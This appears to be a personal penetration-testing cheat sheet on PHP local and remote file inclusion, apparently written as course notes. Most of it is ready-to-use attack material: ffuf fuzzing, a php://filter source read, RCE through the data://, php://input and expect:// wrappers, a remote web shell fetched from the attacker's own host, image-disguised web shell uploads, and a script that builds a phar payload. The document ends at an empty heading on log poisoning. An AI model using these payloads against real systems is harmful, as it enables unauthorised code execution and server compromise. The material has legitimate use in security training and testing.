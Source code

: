 # Local file inclusion
## PHP filter

The interesting part, is to find first the php files with ffuf

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

after that we can try to retrieve the code using the filters.

    php://filter/read=convert.base64-encode/resource=config


## PHP wrappers
### DATA

the data wrapper is what allows to include external data, including php code, and it can allow us to have an RCE.

first we check the php configurations:

Nginx `/etc/php/X.Y/fpm/php.ini`

Apache `/etc/php/X.Y/apache2/php.ini`

and we check for the parameter `allow_url_include` it has to be on in order to include php code as follows:

    echo '<?php system($_GET["cmd"]); ?>' | base64

    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

### input

Similar to data, the only difference that the server needs to accept POST requests.

    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
           
### Expect

Finally we have the expect, which allows us to run commands directly as follows but before we have to check the configurations and grep expect:

    curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"


## RFI

to locate the RFI, the url needs to be allowed, and to confim that we do the same thing we did before to check the `allow_url_include = On` and try this payload:

    http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

and to exploit it, we start by writing the web shell

    echo '<?php system($_GET["cmd"]); ?>' > shell.php

we start an http listener with python and launch the payload.

    http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

it can also be done with ftp, smb, https (maybe not tested)

### File inclusion upload

We can try LFI to upload payloads depending on the situation, example of a set of payloads.

    echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

and example of calling it as follow: 

    http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

We can also try a zip upload:

    echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

    http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

and we can use the zip wrapper in order to call the payload (warning the wrapper has to be enabled and it doesn't always work)

    http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

### Phar 

Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:

```sh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

and we can call the payload as follow

    http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

## LOG poisoning my favourite <3